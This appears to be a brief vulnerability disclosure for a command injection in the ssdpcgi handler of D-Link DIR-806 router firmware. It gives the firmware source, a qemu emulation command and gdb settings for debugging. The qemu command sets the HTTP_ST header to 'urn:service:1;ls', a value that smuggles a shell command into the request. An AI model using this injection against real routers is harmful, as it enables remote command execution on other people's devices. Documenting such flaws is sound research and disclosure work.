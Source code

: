 # D-LINK DIR-806 1200M11AC wireless router DIR806A1_FW100CNb11 command injection
## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-806 
![image-1](../img/4.jpg)
## Debugging verification
Debugging with qemu and gdb:
qemu:
·sudo chroot . ./qemu-mips-static -0 "ssdpcgi" -E REMOTE_ADDR=127.0.0.1 -E SERVER_ID=1 -E REMOTE_PORT=8888 -E HTTP_ST="urn:service:1;ls" -E REQUEST=/ -E REQUEST_METHOD=M-SEARCH -g 12345 ./htdocs/cgibin·
gdb:
`set architecture mips`
`set endian big`
`target remote 127.0.0.1:12345` 
Set the HTTP_ST parameter as HTTP_ST="urn:service:1;ls" 
![image-1](../img/1.jpg)
